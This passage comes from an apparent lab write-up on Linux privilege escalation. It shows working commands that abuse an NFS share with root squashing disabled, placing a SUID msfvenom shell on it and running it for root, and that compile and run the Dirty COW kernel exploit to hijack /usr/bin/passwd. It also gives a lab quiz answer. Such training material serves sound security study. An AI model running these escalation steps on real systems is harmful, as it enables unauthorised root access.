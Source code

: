 > note that /tmp share has root squashinng. now go to the local kali machine and start root terminal.
```
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.233.251:/tmp /tmp/nfs
```
> now we will generate a payload using msfvenom and save it to the mounted share(this payload will symply call the /bin/bash)
```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

chmod +xs /tmp/nfs/shell.elf
```

> now from the VM just run the file
```
/tmp/shell.elf

```

> now we are in the root shell BooM!!

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the name of the option that disables root squashing? | no_root_squash |




## Kernel Exploits

#### Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

> Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system:
```
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```
> The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at /home/user/tools/kernel-exploits/dirtycow/c0w.c. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

> Compile the code and run it (note that it may take several minutes to complete):
```
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w

./c0w

```
> Once the exploit completes, run /usr/bin/passwd to gain a root shell:

```
/usr/bin/passwd
```
> Remember to restore the original /usr/bin/passwd file and exit the root shell before continuing!
```
mv /tmp/bak /usr/bin/passwd
```





#        THE END 
